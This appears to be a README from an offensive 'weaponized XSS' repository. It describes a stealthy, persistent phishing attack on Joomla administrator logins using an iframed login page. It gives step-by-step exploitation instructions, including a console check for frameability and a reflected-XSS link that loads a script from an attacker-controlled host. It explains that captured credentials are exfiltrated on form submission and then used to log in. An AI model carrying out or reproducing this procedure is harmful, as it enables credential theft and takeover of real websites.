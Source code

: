 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.19

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.19/administrator/";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginJoomla.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.15/phishLoginJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.15` - web server hosting payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

7. [post exploit] attacker logs into target Joomla site using obtained credentials

    http://192.168.5.19/administrator/

## Screenshots

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/IframeLogin/screenshots/Joomla_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/IframeLogin/screenshots/Joomla_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/416232be-16b4-4324-9321-d9c3058b9ff9
